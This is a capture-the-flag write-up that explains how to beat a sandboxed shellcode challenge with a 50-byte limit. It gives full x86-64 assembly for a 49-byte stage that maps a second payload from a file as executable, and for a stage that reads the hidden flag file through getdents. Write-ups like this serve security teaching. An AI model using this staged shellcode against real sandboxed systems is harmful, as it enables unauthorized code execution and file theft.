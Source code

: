 **Challenge Overview**

In this challenge, the user is prompted by the program to enter shellcode that
the program will then execute. Two major obstacles must be overcome in order
to do this. The first obstacle is the limited subset of syscalls that are
permitted (and hence, this challenge is a sandbox challenge). The second is the
size limitation on the size of the shellcode that can be input.

We need to gain access to the flag in the password file; however, everytime the
vulnerable program is run, a random sequence of characters is appended to the flag
filename, `flag_<random charseq>`, which uses a strong cryptographically secure
source of randomness, namely /dev/urandom. This file is in the directory 'flag',
the contents of which we cannot see with our permissions. This necessitates creating
shellcode that is not as simple as simply opening a known filename and printing the
contents to standard output. We must open the directory and then read the filename
from its directory entry. Thankfully, this is at least simplified by the fact this
is the only file within the directory.

All of this means the shellcode necessary to complete the challenge is a lot
longer than the limit, which is 50 bytes.

We can read the contents of the shell script that is automatically run when
we start the vulnerable program:

```
#!/bin/sh

PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
PATH_TO_CHALLENGE="$(dirname ${0})"

cd $PATH_TO_CHALLENGE

NEW_RANDOM_ID=$(tr -dc A-Za-z0-9 < /dev/urandom | head -c 32)

chmod 700 flag/
mv passwd/.flag_* "flag/.flag_${NEW_RANDOM_ID}"
chmod 400 flag/.flag_*
chmod 500 flag/

timeout -k 2m 1m ./challenge-sandbox ./vuln
```

We are only permitted to use the following system calls:

`read, write, exit, brk, mmap, access, open, fstat, close, mprotect,
munmap, arch_prctl, exit_group, getdents`

In order to complete the challenge, we must divide our shellcode into
two phases. The second phase of our shellcode will be kept in a file
that we put into some private directory we create in /tmp. That leaves
the first phase, which becomes as simply as creating a memory mapped
region into which the contents of our known file will be read. We then
change the permissions of this memory mapped region to be executable
and then use a JMP instruction to jump to the start of this region, thus
executing the second phase of our shellcode. Therefore, we have bypassed
the restriction of 50 bytes and our shellcode can be as long as we wish.

All of this uses only the restricted subset of system calls in the sandbox.

**Phase I of our exploit**

  - _Open file containing shellcode for phase two_
  - _Map the contents into memory, with the permission set
    (PROT_READ|PROT_WRITE|PROT_EXEC)_
  - _Pass execution to it_

The total size of this part of the exploit is 49 bytes, thus within the
size limitation of the sandbox.

**Phase II of our exploit**

  - _Open the "flag" directory (pass O_DIRECTORY flag to open())_
  - _Read the directory entries onto the stack using sys_dirents_
  - _Push "flag/" onto the stack and then append the obtained filename to it_
  - _Open the flag file_
  - _Read contents onto stack_
  - _Print contents to stdout_

The size of this part of the exploit is 161 bytes, itself well over the size
limitation. The total size of the exploit is therefore 210 bytes.


**Assembly code for phase I of the exploit**

```
.section .rodata

.equ SYS_MMAP,9
.equ PROT,0x7
.equ FLAGS,0x2

.globl _start

_start:
	mov $0x63732f706d742f,%rdi
	push %rdi
	mov %rsp,%rdi
	push $2
	pop %rsi
	push $2
	pop %rax
	syscall
	mov %rax,%r8
	xor %rdi,%rdi
	movb $131,%sil
	push $0
	pop %r9
	push $PROT
	pop %rdx
	push $FLAGS
	pop %r10
	push $SYS_MMAP
	pop %rax
	syscall
	call *%rax
```
  
**Assembly code for part II of the exploit**

```
.section .rodata

.equ SYS_READ,0
.equ SYS_WRITE,1
.equ SYS_OPEN,2
.equ SYS_EXIT,60
.equ SYS_GETDENTS,78
.equ O_DIRECTORY,0200000
.equ OFLAGS,0x242

.globl _start

_start:
	mov $0x67616c66,%rdi
	push %rdi
	mov %rsp,%rdi
	push $O_DIRECTORY
	pop %rsi
	push $SYS_OPEN
	pop %rax
	syscall
	mov %rax,%rdi
	mov %rsp,%rsi
	mov $255,%dl
	push $SYS_GETDENTS
	pop %rax
	syscall

	add $42,%rsp
	mov %rsp,%rsi
	sub $0x200,%rsp
	push $42
	pop %rcx
	mov $0x2f67616c66,%rdi
	push %rdi
	add $7,%rsp
	mov %rsp,%rdi
.mloop:
	movb (%rsi),%al
	movb %al,(%rdi)
	inc %rsi
	inc %rdi
	dec %rcx
	jne .mloop

	mov $0,%rax
	movb %al,(%rdi)

	mov $1,%rsi
	dec %rsi
	mov $2,%rax
	sub $7,%rsp
	mov %rsp,%rdi
	syscall
	mov %rax,%rdi
	sub $0x100,%rsp
	mov %rsp,%rsi
	push $64
	pop %rdx
	push $SYS_READ
	pop %rax
	syscall

	push $1
	pop %rdi
	push $0x800
	pop %rdx
	mov %rsp,%rsi
	push $SYS_WRITE
	pop %rax
	syscall
```
